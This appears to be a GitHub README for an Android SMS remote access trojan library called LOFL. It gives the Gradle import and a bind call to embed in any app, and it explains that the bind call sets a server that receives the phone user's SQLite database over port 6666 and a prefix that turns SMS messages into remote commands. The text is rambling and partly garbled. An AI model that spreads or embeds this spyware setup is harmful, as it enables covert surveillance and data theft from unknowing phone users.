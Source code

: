 ## I have a reward for my beta law document. $30
# LOFL BOT
### A 3-year-old injectable SMS RAT. No backend. Therefore, the spyware remote commands won't work. I learned Android pentesting with library. I'm really embarrassed of the code and design. I removed this after a Nigerian NSA officer starred and followed me. This was my first RAT. Iwanteed to leave it to my child but it's for my father.

### Guess what all you beautiful ladies, social elitists, hackers, developers, engineers, crackers, terrorists, CandroidOgNinja fans, Candroid fans, Chris Basinger's fans, Evil Threads fans, family members, and federal agents. I've managed to hack the Android SMS module! By doing so, I've extended it's functionality to allow for SMS messages to only travel through the notification drawer without persistence. I was planning on adding media functionality as well. However , my life had to go on. There is a self-destructible SMS based notification messenger app. Like snapchat in your drawer. It's hidden in a git branch.

### Yeah baby. I allow you to copy and paste this import into any app in the world! And guess what! Then you just say "LOFL" and then guess what haha it becomes an SMS RAT.

```gradle
implementation 'com.github.evilthreads669966:lofl:1.0'
```


 
 1. Put the following line of code in oncreate of your mainactivity class
 
 LoflActivity.bind(this,"10.0.2.2", "123", this.getClass().getName());
 
 the first parameter is the server address which is responsible for receiving a sqlite database file from the users phone.
 
 the second parameter is what you will put at the start of your sms commands to tell the app that 'this is a command'
 
 the third paremeter is to let lofl know what your launch activity is
 
 the database is sent over port 6666
